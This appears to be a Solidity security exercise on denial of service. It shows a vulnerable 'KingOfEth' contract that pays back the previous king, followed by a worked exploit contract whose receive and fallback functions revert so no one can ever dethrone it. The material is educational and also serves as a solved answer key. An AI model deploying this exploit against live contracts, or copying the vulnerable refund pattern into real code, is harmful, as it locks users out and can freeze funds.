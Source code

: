 ```yaml
---
title: "Denial of Service"
tags: ["Solidity", "Security"]
---
```


# Description

Deposit more ETH than the current king to become the new king.

Bob is the current king with 2 ETH deposited.

```sol
contract KingOfEth {
    address payable public king;

    function play() external payable {
        // previous balance = current balance - ETH sent
        uint256 bal = address(this).balance - msg.value;
        require(msg.value > bal, "need to pay more to become the king");

        (bool sent, ) = king.call{value: bal}("");
        require(sent, "failed to send ETH");

        king = payable(msg.sender);
    }
}
```

# Task

Become the new king and disable the contract so that no else can ever become the king.

3 ETH will be sent to pwn.

# Solution

1. become the new king
2. make `require(sent, "failed to send ETH");` always fail by unaccepting eth.

```sol
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

interface IKingOfEth {
    function play() external payable;
}

contract KingOfEthExploit {
    IKingOfEth public target;

    constructor(address _target) {
        target = IKingOfEth(_target);
    }

    function pwn() external payable {
        target.play{value: msg.value}();
    }
    
    fallback() external payable {
        revert("ETH not accepted");
    }

    receive() external payable {
        revert("ETH not accepted");
    }
}
```
